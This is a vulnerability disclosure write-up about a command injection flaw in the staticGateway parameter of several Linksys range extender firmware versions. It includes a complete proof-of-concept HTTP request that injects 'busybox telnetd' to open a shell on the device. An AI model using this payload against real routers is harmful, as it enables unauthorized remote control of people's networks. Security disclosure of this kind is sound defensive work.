




# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasicAuto` function, `staticGateway` is directly passed by the attacker, so we can control the `staticGateway` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

`mod_form.so->internet.sh->um_inspect_cross_band`

In `um_inspect_cross_band` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS、setWan function exists the same problem, also can set the value of staticIp.


## PoC

We set `staticGateway` as **192.168.1.1`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1388
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=w3vaYGwYWBt8eHjbBEsywfj5PGMSsDMo
Upgrade-Insecure-Requests: 1

hname=RE6500-565&fname=Linksys+Range+Extender&cType=STATIC&staticIp=192.168.1.12&staticNetmask=255.255.255.0&staticGateway=192.168.1.1`busybox telnetd`&staticPriDns=192.168.1.251&staticSecDns=&staticTrdDns=&TZ=UCT_-04&save_time=0&device_mode=3&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=NETGEAR15_Ext&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=d2lkZWFwcGxlMzcy&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=NETGEAR15&apcli_encrypt_2G=AES&apcli_AuthMode_2G=WPA2-PSK&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=d2lkZWFwcGxlMzcy&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=NETGEAR15-5G_Ext&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=d2lkZWFwcGxlMzcy&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=NETGEAR15-5G&apcli_encrypt_5G=AES&apcli_AuthMode_5G=WPA2-PSK&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=d2lkZWFwcGxlMzcy&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```


## Result

Get a shell!

<div  align="center"></div>

